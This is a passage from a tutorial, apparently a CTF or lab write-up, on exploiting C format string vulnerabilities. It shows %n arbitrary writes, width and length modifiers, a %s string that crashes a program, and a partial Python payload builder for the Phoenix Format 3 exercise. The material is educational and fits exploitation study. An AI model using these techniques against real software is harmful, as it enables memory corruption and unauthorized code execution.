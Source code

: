 ```
int num_char; 
printf("11111%n", &num_char);
```

With dummy output characters and **width-controlling format specifiers**, the attacker can now write arbitrary integers to the location pointed to by the function argument.

For example, %10d will pad the value to 10 characters.

```
int num_char;
printf("%10d%n", 0, &num_char); 
-> will print "          0", num_char is 10
```

And by using length modifiers, attackers are able to control the amount of data written with fine-grain control.

```
printf("%10d%n", 0, &num_char); -> writes 4 bytes to &num_char
printf("%10d%hn", 0, &num_char); -> writes 2 bytes to &num_char
```

Btw, if you just want to **crash the application**, then this should create a segmentation fault:

```
printf ("%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s");
```

## Writing arbitrary values to arbitrary addresses

If you want to write a 32 bit integer to an address, then the maximum amount of padding you will need is 2,147,483,647. That’s too much, so you should instead **write 1 or 2 bytes at a time**. The below Phoenix Format 3 example will write 1 bytes at a time, but keep in mind that writing 2 bytes at a time with width-controlling format specifiers is safer, since your writes won’t overflow into unintended addresses.

We can just start writing from the least significant byte (byte with the lowest address, aka byte at the end of a string, due to [little endianness](https://stackoverflow.com/questions/22030657/little-endian-vs-big-endian)) and then just keep overwriting the higher bytes. One byte at a time.&#x20;

### **Phoenix Format 3 exploitation**

{% embed url="https://exploit.education/phoenix/format-three/" %}

**Note 1**: We will be overwriting values past the changeme variable. Hope it doesn't break anything.

**Note 2**: You can put the address before the %p's. It will make the payload significantly shorter.

I made a script for getting the correct output.

```
#!/usr/bin/python3

address1 = "\x08\x04\x98\x44"[::-1]
address2 = "\x08\x04\x98\x45"[::-1]
address3 = "\x08\x04\x98\x46"[::-1]
address4 = "\x08\x04\x98\x47"[::-1]

buf = ''
buf += address1
buf += 'AAAA' # Add space for extra padding using %1234p or whatever
buf += address2
buf += 'BBBB' # Add space for extra padding
buf += address3
buf += 'CCCC' # Add space for extra padding
buf += address4

```